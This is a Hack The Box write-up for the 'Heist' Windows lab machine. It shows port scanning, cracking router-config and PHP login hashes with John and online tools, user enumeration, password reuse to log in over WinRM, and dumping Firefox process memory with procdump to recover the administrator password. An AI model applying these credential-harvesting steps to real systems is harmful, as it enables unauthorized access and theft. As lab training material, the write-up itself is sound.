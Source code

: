 ```yaml
---
title: Hack The Box - Heist Write Up
published: true
---
```

Hey Guys This is my write up about heist from hack the box 
This is an easy windows machine.
# [](#header-3)Machie ip:10.10.10.149
I added it to /etc/hosts
so let's get jump in 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/heist.jpg)

# [](#header-2)Port Scan 
```
root@ch4n:~# nmap -sC -sV 10.10.10.149

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-02 15:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.43s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-02 04:50:41
|_  start_date: 1600-12-31 19:03:58

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.89 seconds
```
# [](#header-2)Web Page 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/web%20page.png)

After logging in as guest I found this page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/loggedin.png)

In this page The user Hazard posting the issue about cisco router and he attached the issue with configuration file

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/config.png)

In config.txt it contains some pass and username

I used online tools to crack them

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(1).png)
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(2).png)

```
0242114B0E143F015F5D1E161713 - $uperP@ssword
02375012182C1A1D751618034F36415408 - Q4)sJu\Y8qz*A3?d
```
this one can't crack by online tools so I used john
```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

```
root@ch4n:~/Desktop/htb/boxes/heist# john --wordlist=/root/Desktop/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)
1g 0:00:01:15 DONE (2019-12-26 15:08) 0.01316g/s 46153p/s 46153c/s 46153C/s stealthy001..steak7893
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
we got the pass 
```
stealth1agent
```

so we got users as 
```
admin
Hazard
administrator 
```

so Let's enumerate user through hazard 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/lookupsid.jpg)

here we got a bunch of usernames

So There are the users
```
Hazard
admin
administrator
support 
Chase 
Jason
Guest
```
Here are the pass

```
$uperP@ssword
Q4)sJu\Y8qz*A3?d 
stealth1agent
```
then I could login as Chase 
```
Chase - Q4)sJu\Y8qz*A3?d
```
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/chase.jpg)
then grab the user.txt

# [](#header-2)Privillege Escalation
I found this 
```
if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') 
```
in 
```
C:\inetpub\wwwroot\login.php 
```

I crack the pass with online tools 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(3).png)

```
https://md5hashing.net/hash/sha256/91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
4dD!5}x/re8]FBuZ
```
got the password 

```
4dD!5}x/re8]FBuZ
``` 
and login with evil-winrm

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/root.jpg)

and got the shell as system user and grab the root flag

There is another way to get root so I wanna explain about it 

let's go on

I check the services with ps cmd 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/ps.png)

then I saw that firefox is running 

so I used procdump to dump all the data from firefox

You can download from there:[https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/procdump.png)

I just download the dmp file from attack  machine to my machine then grep the pass with strings 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/strings.png)
 
then got the root pass 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/root_pass.jpg)
```
4dD!5}x/re8]FBuZ
```
So This is another way to get the root pass.

That’s it , Feedback is appreciated !

Contact me on 
[Facebook](https://www.facebook.com/SeeKwalCH4N)
[Twitter](https://twitter.com/ChanNyeinWai6)
[Instagram](https://www.instagram.com/chan_nyeinwai/)

Thanks for reading.
<img src="https://www.hackthebox.eu/badge/image/81292" alt="Hack The Box"> 


